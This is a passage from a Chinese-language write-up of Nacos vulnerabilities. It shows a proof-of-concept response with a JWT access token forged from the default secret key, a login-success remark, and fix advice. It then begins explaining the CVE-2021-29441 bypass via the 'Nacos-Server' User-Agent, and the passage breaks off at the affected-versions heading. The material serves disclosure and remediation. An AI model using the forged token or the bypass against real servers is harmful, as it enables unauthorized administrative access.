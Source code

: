 ![]()

## POC

    
    
    HTTP/1.1 200  
    Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA  
    Content-Type: application/json; charset=utf-8  
    Date: Tue, 14 Mar 2023 16:34:47 GMT  
    Content-Length: 206  
      
    {  
     "accessToken": "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA",  
     "tokenTtl": 18000,  
     "globalAdmin": false,  
     "username": "nacos"  
    }  
    

成功登录后台

![]()

## 修复建议

升级到最新版`nacos`

修改`token.secret.key`的值

## 参考：

    
    
    https://www.cnblogs.com/0vers1eep/p/17226608.html  
    https://mp.weixin.qq.com/s?src=11&timestamp=1688698851&ver=4635&signature=9oSwwPFu8Rj0T9S4Y2wphhDWoF*3swqweCW*kX1YPjTEN3VJvHo51RDv6WlMdyZrFcNpsj*AMXN3p7w2pGiIb*FP5Unnkb-8LUfHFEcWBXBUYf9QdXsPb7mM2ayaAhaq&new=1  
    

# 四、Nacos 身份验证绕过漏洞（CVE-2021-29441）

## 原理

在`<1.4.1`及更早版本的`Nacos`中，当配置文件使用身份验证（`Dnacos.core.auth.enabled=true`）时候，会判断请求ua是否为`"Nacos-
Server"`，如果是的话则不进行任何认证。

## 影响版本

    
    